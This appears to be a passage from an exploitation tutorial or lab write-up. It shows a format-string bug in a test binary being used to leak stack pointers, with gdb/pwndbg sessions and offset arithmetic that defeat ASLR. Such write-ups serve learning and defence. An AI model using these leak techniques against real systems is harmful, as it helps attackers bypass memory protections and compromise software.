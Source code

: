 ```
$ ./vuln
%x
f7fa6000
```

So let's see if we can leak some valuable information.
In our new `pwn_ASLR.py` script, let's use the `find_eip` function to start messing around with the format strings. 
Something we would want to leak is a pointer on the stack, `%x %x` (going two pointers up so we go from `str_addr`,  and observing the leaks we see

```
$ python3 pwn_ASLR.py
...
b'0xf7fbd000 0xffc6b7d8'
```

Paired with the debugger infor
```
$ gdb -p<pid>
pwndbg> b *vuln_func+28
pwndbg> c
pwndbg> info reg
eax            0xffc6b780
```

Running it one more time

```
$ python3 pwn_ASLR.py
...
b'0xf7fa3000 0xffa1f078'
```

Paired with the debugger infor
```
$ gdb -p<pid>
pwndbg> b *vuln_func+28
pwndbg> c
pwndbg> info reg
eax            0xffa1f020
```

Now using python to check the offset math:
```
$ python3
Python 3.6.9 (default, Oct  8 2020, 12:12:24)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xffc6b7d8 - 0xffc6b780
88
>>> 0xffa1f078 - 0xffa1f020
88
```

We have consistent offsets! This is huge, and exactly what we were looking for.
